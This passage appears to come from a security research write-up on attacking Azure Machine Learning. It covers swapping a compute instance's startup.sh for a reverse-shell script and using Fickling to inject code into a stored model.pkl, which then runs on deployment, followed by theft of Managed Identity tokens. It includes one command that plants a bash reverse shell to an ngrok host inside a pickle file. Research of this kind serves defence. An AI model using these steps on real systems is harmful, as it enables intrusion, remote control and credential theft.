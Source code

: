 ![ely_startup_script]({{site.baseurl}}/assets/images/AZML/ely_startup_script.png){:style="display:block; margin-left:auto; margin-right:auto"}

The attacker can locate a file named startup.sh, delete it, and replace it with a malicious file of the same name containing a reverse shell. When a compute instance is started or restarted, the attacker can gain a reverse shell on the machine. In this scenario, ngrok is used to expose a listener and establish the reverse shell connection. The attacker can then obtain a Managed Identity access token and leverage it to pivot to other systems.

![shell_startup]({{site.baseurl}}/assets/images/AZML/shell_startup.png){:style="display:block; margin-left:auto; margin-right:auto"}

#### Pickle File Injection: From Storage Account to Azure Container

A similar attack scenario can be executed using a .pkl file. In this case, if user files are stored in the File Share, jobs and experiments are stored in Blob Storage. As before, we assume an attacker has compromised the user Ely, who does not have access to Azure Machine Learning but holds the Storage Account Contributor role. The attacker can identify the model stored in the blob, download it, inject malicious Python code into the model, and re-upload the malicious model back into the storage account. This poses a significant risk because .pkl files are typically neither inspected nor easily readable, they contain pre-trained models. These compromised models can be deployed across various systems, including Flask applications, Azure Virtual Machines, Azure Machine Learning endpoints, Azure App Service, Azure Containers, or even external systems outside the cloud. Moreover, such models are frequently distributed internally within organizations, shared with clients, or exposed in public repositories like GitHub, enabling attackers to spread malicious code across the organization. In our demonstration, we injected malicious code into a `model.pkl` file using a tool called Fickling. As an example, the compromised model was deployed in an Azure Container via Azure Machine Learning. 

As the first step, we identify the `model.pkl` file within the blob storage that we intend to inject with malicious code.

![storage_pkl]({{site.baseurl}}/assets/images/AZML/storage_pkl.png){:style="display:block; margin-left:auto; margin-right:auto"}

After identifying the file, we download it and inject a reverse shell code with [Fickling]("https://github.com/trailofbits/fickling"). We can then overwrite the original `model.pkl` file in the blob with the compromised version containing the injected code. Once re-uploaded, the malicious code will execute whenever the model is deployed.

```bash
fickling --inject '__import__("subprocess").run(["bash", "-c", "bash -i >&/dev/tcp/0.tcp.eu.ngrock.io/122274 0>&1"])' model_original.pkl > model.pkl
```

In this scenario, we assume data scientists decide to deploy the model to an Azure Container.

![container]({{site.baseurl}}/assets/images/AZML/container.png){:style="display:block; margin-left:auto; margin-right:auto"}

The attacker can then proceed to obtain the access token and use it to move laterally to other systems.

![shell_container]({{site.baseurl}}/assets/images/AZML/shell_container.png){:style="display:block; margin-left:auto; margin-right:auto"}

### Harvesting Credentials
